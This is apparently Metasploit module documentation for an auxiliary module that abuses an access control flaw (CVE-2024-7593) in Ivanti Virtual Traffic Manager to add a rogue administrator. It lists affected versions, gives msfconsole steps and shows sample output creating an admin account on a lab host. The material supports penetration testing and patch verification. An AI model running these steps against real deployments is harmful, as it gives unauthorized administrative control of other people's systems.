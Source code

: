 ## Vulnerable Application

This module exploits an access control issue in Ivanti Virtual Traffic Manager (vTM), by adding a new
administrative user to the web interface of the application.

Affected versions include:
* 22.2
* 22.3
* 22.3R2
* 22.5R1
* 22.6R1
* 22.7R1

The vendor published an advisory [here]
(https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Virtual-Traffic-Manager-vTM-CVE-2024-7593?language=en_US).

A proof-of-concept is available [here](https://packetstormsecurity.com/files/179906).

## Testing

Docker images with the software are available from [here](https://hubgw.docker.com/r/pulsesecure/vtm).

**Successfully tested on**

- 22.7R1 on Ubuntu 20.04.6 LTS

## Verification Steps

1. Deploy Ivanti Virtual Traffic Manager (vTM)
2. Start `msfconsole`
3. `use auxiliary/admin/http/ivanti_vtm_admin`
4. `set RHOSTS <IP>`
5. `run`
6. A new admin user should have been added to the web interface.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Virtual Traffic Manager (vTM) 22.7R1 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/ivanti_vtm_admin 
msf6 auxiliary(admin/http/ivanti_vtm_admin) > set RHOSTS 172.17.0.2
msf6 auxiliary(admin/http/ivanti_vtm_admin) > exploit 
[*] Running module against 172.17.0.2

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 22.7R1
[+] New admin user was successfully added:
	h4x0r:w00Tw00T!
[+] Login at: https://172.17.0.2:9090/apps/zxtm/login.cgi
[*] Auxiliary module execution completed
```
